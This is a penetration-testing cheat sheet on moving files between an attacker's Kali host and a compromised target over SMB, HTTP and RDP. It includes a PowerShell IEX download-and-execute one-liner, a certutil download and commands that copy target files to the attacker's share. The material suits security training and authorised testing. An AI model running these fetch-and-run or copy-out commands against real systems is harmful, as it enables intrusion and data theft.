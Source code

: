 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared.

```bash
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target

```cmd
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

KALI to TARGET

```cmd
xcopy \\<Kali IP>\share\<file> C:\<destination_path>\
```

TARGET to KALI

```cmd
xcopy <source_path>\<file> \\<Kali IP>\share\
```

## HTTP - from attacker to target OR target to attacker

Python 2.7

```bash
cd <path>
python -m SimpleHTTPServer 8000
```

or

Python 3

```bash
cd <path>
python3 -m http.server 8000
```

or

PHP

```bash
cd <path>
php -S 0.0.0.0:8000
```

or

Ruby

```bash
cd <path>
ruby -run -ehttpd . -p8000
```

### download to Windows

PowerShell

```powershell
Invoke-WebRequest -Uri 'http://<http server IP>:8000/<filename>' -OutFile <filename> 
```

PowerShell from cmd

```cmd
powershell.exe -command Invoke-WebRequest -Uri http://<http server IP>:8000/<filename> -OutFile <filename>
```

Download and execute with `Invoke-Expression` without saving file

```cmd
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<http server IP>:8000/<filename>)
```

Certutil

```cmd
certutil -urlcache -split -f 'http://<http server IP>:8000/<filename>' <path_destiny><filename>
```

### download to Linux

wget

```bash
wget <http server IP>:8000/<filename>
```

Perl oneliner

```bash
perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://<http server IP>:8181/file.txt", "file.txt");'
```

## RDP - tsclient

### attacker to/from Windows

Use rdesktop or xfreerdp to connect to Windows target mapping a attacker host local folder to tsclient - [examples](windowsRemoteDesktop.md)

On the Windows target with CMD or PowerShell you can list the directory with `dir \\tsclient\sharedfolder`.

```powershell
PS C:\> dir \\tsclient\kali

    Directory: \\tsclient\kali

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/19/2021   1:14 PM              0 file_01.txt
-a----        6/18/2021  12:23 PM             36 file_02.txt
```

```powershell
PS C:\> mkdir C:\Temp
PS C:\> copy \\tsclient\kali\Tools.zip C:\Temp
PS C:\> Expand-Archive -LiteralPath C:\Temp\Tools.zip -DestinationPath C:\Temp
```

```powershell
PS C:\> dir C:\Temp\

    Directory: C:\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/18/2023   3:03 PM                Tools
-a----       11/18/2023   2:59 PM       12711723 Tools.zip
```

## Links

- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- [nfinitelogins - windows-file-transfer-cheatsheet/](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
- [certcube - file-transfer-cheatsheet-for-pentesters](https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/)
- [fir3wa1-k3r - File-Transfer-cheatsheet](https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html)
